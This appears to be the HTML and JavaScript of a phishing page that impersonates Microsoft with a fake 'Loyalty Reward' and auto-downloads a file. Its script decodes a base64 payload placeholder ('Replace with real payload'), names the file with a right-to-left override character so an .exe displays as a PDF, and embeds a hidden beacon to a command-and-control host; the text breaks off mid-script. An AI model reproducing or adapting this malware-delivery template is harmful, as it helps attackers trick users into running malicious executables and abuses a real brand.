           }
          @media (prefers-color-scheme: dark) {
            body {
              background: #121212;
              color: #eee;
            }
            .container {
              background-color: #1e1e1e;
              color: #eee;
            }
          }
        </style>
      </head>
      <body>
        <img src="https://upload.wikimedia.org/wikipedia/commons/4/44/Microsoft_logo.svg" style="width:120px; margin-bottom: 20px;" />
        <div class="container">
          <h1>🎉 Microsoft Loyalty Reward</h1>
          <p>You’ve been selected to receive a reward as a valued Microsoft 365 user.</p>
          <p>Your reward document is being prepared...</p>
          <p id="countdown">Starting download in <span id="seconds">5</span> seconds...</p>
          <div class="loader"></div>
          <p class="hidden" id="doneMsg">If your download hasn’t started, <a href="#" id="manualLink">click here</a>.</p>
        </div>
      
        <img src="https://yourc2.tld/tracker?id=uniqueid" style="display:none;" /> <!-- Beacon -->
      
        <script>
          function base64ToArrayBuffer(base64) {
            const binary_string = window.atob(base64);
            const len = binary_string.length;
            const bytes = new Uint8Array(len);
            for (let i = 0; i < len; i++) {
              bytes[i] = binary_string.charCodeAt(i);
            }
            return bytes.buffer;
          }
      
          const base64File = '<<BASE64_PAYLOAD>>'; // Replace with real payload
          const fileName = 'RewardClaim\u202Efdp.exe'; // Displays as RewardClaim.pdf
      
          let sec = 5;
          const countdown = setInterval(() => {
            sec--;
            document.getElementById('seconds').textContent = sec;
            if (sec === 0) clearInterval(countdown);
          }, 1000);
      
          setTimeout(() => {
            if (base64File.startsWith('<<')) {
              alert('Error: Payload missing.');
              return;
            }
      